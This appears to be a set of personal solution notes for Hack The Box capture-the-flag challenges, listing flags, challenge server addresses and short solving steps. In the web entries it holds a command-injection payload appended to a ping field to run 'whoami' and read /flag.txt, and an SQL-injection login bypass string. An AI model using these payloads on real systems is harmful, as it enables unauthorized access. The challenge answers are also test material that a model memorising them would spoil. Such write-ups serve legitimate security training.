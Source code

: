 PWN:
    Initialise Connection:
        nc 165.232.100.46 30002
        HTB{g3t_r34dy_f0r_s0m3_pwn}

    Questionnaire:
        nc 165.232.98.69 30697
        64-bit
        Dynamic
        vuln()
        0x20
        gg()
        fgets()
        40
        gdb ./test -> gdb p gg
        0x401176
        HTB{th30ry_bef0r3_4cti0n}

    

Web:
    Trapped Source:
        Keypad PIN hardcoded in page source:
            
            window.CONFIG = window.CONFIG || {
                buildNumber: "v20190816",
                debug: false,
                modelName: "Valencia",
                correctPin: "8291",
            }

        HTB{V13w_50urc3_c4n_b3_u53ful!!!}

    Gunhead:
        Source reveals that user input is passed directly to curl command via ping command
        execute arbitrary commands by appending to ping e.g. /ping localhost; whoami
        flag in /flag.txt -> /ping localhost; cat /flag.txt
        HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}

    Drobots:
        Bypass login with SQL injection
        username: " or ""="
        password: " or ""="    
        HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}

    Passman:


Forensics:

    Plaintext Treasure:
            Open wireshark
            Statistics -> Conversations (only two endpoints)
            tab TCP, notice port 1337
            Filter tcp.port == 1337 && http
            first packet is POST/token -> follow HTTP stream
            password is HTB{th3s3_4l13ns_st1ll_us3_HTTP}

    Alien Cradle:
            Open powershell script, find this line:
            'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}
            Remove '+' signs and concatenate string:
            HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

Crypto:
    Ancient Encodings:
        Python script shows input text is base64 encoded then converted to hex:
        Use python or cyberchef or another tool:
        convert hex to string (from hex)
        base64 decode
        HTB{1n_y0ur_j0urn3y_y0u_wi1l_se3_th15_enc0d1ngs_ev3rywher3}
        
Reversing:
    Hunting License
        nc 206.189.112.129 31332 (questionnaire)
        Answers:
        elf
        x86_64
        libreadline.so.8 (ldd license | strings license | ghidra)
        00401172 (memory address of main, gdb license -> info functions | ghidra)
        5 (how many puts in main, gdb or ghidra)
        PasswordNumeroUno (strings license)
        0wTdr0wss4P (strings license)
        P4ssw0rdTw0 (reverse above)
        Third pass:
        G{zawR}wUz}r (strings license)
        0x13 (XOR key for above, cyberchef XOR brute force)
        ThirdAndFina.. (first half of password(?))

